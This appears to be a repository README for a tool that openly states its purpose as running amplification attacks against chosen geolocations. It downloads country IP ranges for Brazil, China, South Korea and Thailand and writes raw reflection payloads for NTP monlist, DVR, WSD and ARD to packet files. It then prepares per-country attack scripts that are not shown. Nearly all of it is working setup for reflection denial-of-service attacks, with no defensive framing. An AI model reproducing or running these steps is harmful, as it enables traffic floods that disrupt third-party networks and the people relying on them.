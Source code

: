 # amplification_geolocation
Do amplification attacks with specific geolocations


wget https://www.ipdeny.com/ipblocks/data/countries/br.zone
wget https://www.ipdeny.com/ipblocks/data/countries/cn.zone
wget https://www.ipdeny.com/ipblocks/data/countries/kr.zone
wget https://www.ipdeny.com/ipblocks/data/countries/th.zone

echo -ne "\x17\x00\x03\x2a\x00\x00\x00\x00" > ntp.pkt
echo -ne "\x44\x48\x49\x50" > dvr.pkt
echo -ne "<:>" > wsd.pkt
echo -ne "\x00\x14\x00\x00" > ard.pkt

apt install dos2unix -y
dos2unix br.sh
dos2unix kr.sh
dos2unix cn.sh
dos2unix th.sh
